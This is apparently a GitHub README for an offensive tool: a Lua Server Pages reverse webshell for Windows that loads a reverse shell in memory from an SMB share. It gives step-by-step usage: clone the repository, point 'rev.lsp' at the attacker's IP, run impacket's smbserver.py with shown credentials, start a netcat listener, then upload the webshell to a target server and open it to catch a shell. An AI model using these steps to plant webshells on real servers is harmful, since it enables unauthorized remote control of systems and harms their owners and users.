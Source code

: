 # LSP Reverse Shell
A Lua Server Pages reverse webshell for Windows. I noticed there was no '.lsp' webshell of any sort available online, so now there is.

Since the Lua sockets module (the traditional Lua reverse shell method) often isn't installed, this webshell opts instead to execute a reverse shell in-memory off of an SMB share. Be sure to install impacket, if it isn't already installed, since you'll need smbserver.py.
### Usage:
* ```git clone https://github.com/the-emmon/lsp-reverse-shell```
* ```cd lsp-reverse-shell```
* Change the IP address in 'rev.lsp' to your machine.
* ``` sudo smbserver.py SMB . -comment share -ts -debug -smb2support -username user -password 'pass' ```
* Start a nc listener in another window.
* Upload the 'rev.lsp' file, open the page, and you should immediately catch a shell.
